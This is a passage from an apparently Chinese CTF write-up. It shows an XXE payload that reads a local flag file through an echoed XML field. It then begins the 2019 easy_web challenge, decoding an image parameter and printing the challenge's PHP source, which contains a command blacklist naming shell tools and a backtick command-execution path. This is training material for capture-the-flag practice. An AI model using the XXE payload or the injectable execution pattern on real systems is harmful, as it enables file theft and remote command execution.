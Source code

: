 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///flag">]>
<user>
    <username>
        &file;
    </username>
    <password>
        123
    </password>
</user>
```

其中 username 是回显位

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271920255.png)

## [安洵杯 2019]easy_web

url 如下

```
http://fceb2d5a-0801-4f14-8892-7320f73f2268.node4.buuoj.cn:81/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

img 有点可疑, base64 解码两次 (第一次解码记得在末尾加上 `=`)

```
3535352e706e67
```

hex 编码, 再解码的内容为 `555.png`

看起来是文件包含, 于是构造了 index.php, 读取出来的内容 base64 解密一次即可

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
```